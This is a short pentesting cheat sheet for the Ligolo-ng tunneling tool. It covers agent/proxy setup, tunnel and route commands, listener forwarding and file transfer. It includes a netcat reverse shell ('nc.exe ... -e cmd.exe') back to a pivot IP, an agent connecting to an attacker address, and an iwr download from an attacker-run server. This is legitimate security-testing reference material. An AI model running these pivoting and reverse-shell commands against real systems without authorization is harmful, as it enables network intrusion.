 ```yaml
---
tags:
  - tool
  - tunneling
---
```

# Ligolo-ng

A _simple_, _lightweight_ and _fast_ tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a **tun interface** (without the need of SOCKS) - [ligolo-ng](https://github.com/nicocha30/ligolo-ng)

## Capabilities

```powershell
# Start agent on kali
sudo ~/compiled_binaries/ligolo/proxy -selfcert
sudo ~/compiled_binaries/ligolo/proxy -selfcert -laddr 0.0.0.0:443

# Connect to agent on target
.\agent.exe -connect $OUR_IP:11601 -retry -ignore-cert
```

### Tunnel Management

**In Logolo session:**

```powershell
# Select session
session

# Create interface
ifcreate --name $INTERFACE

# Delete interface
ifdel --name $INTERFACE

# Start the tunnel
start --tun $INTERFACE

# List tunnels
tunnel_list

# Stop tunnel
stop --agent $AGENT_ID

# Check interface information
ifconfig

# Add routing information to global routing table
route_add --name $INTERFACE --route $CIDR

# Add local network to forward
route_add --name $INTERFACE --route 240.0.0.1/32
# Sample command to interact with local port 5000
curl 240.0.0.1:5000
```

**In Kali**

```powershell
# Add ipv6 route to the same interface
sudo ip -6 route add $TARGET_CIDR dev $INTERFACE

# Confirm routing information
ip r
```

### Forward Reverse Shell Connections

**In Logolo session:**

```powershell
# Setup listener
listener_add --addr 0.0.0.0:443 --to 127.0.0.1:443

# Check listeners
listener_list
```

**In normal terminal:**

```powershell
# On kali machine
rlwrap -crA nc -lvnp 9001

# On internal host
.\nc.exe $PIVOT_IP 9001 -e cmd.exe
```

### Upload Files

**In Logolo session:**

```powershell
# Setup listener for uploading files with python simple http server
listener_add -addr 0.0.0.0:9002 --to 127.0.0.1:80
```

**In normal terminal:**

```powershell
# On kali machine
python3 -m http.server 80

# On internal host
iwr -uri http://$PIVOT_IP:9002/example.txt -outfile example.txt
```
